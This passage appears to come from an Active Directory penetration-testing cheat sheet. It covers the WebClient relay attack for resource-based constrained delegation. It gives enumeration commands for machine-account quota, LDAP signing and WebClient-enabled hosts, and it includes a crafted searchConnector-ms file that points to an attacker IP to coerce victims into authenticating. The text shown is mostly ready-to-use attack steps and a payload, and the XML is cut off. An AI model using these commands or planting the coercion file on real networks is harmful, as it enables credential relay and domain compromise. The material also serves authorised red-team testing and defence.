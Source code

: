 ````

- If dir doesn't work check blogpost

#### It is possible that you impersonated another user which leads to more ACL abuses!

### Webclient Attack
- Requirements:
  - On a Domain Controller to have the LDAP signing or LDAPS binding not enforced (default value)
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://www.bussink.net/rbcd-webclient-attack/
- The blog says this is a requirement but it isn't "On a Domain Controller to have the LDAPS channel binding not required (default value)". You can relay to LDAP and use your own object with a SPN or relay to LDAPS and it will create it. If LDAP or use a specific user use the ```--escalate-user``` flag.

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

crackmapexec ldap <DC IP> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Check LDAP Signing and LDAPS Binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method BOTH -dc-ip <IP> -u <USER> -p <PASSWORD>

cme ldap <DC IP> -u <USER> -p <PASSWORD> -M ldap-signing
```

#### Scan for target with webclient active
- https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner <DOMAIN>/<USER>:<PASSWORD>@<IP RANGE> -dc-ip <DC IP>

crackmapexec smb <HOST> -d <DOMAIN> -u <USER> -p <PASSWORD> -M webdav
```

#### If no targets, place file on share to activate webclients
- https://www.bussink.net/webclient_activation/
- Filename ```Documents.searchConnector-ms```
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>//<ATTACKER IP>/test.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>//<ATTACKER IP>/test</url>
    </simpleLocation>
````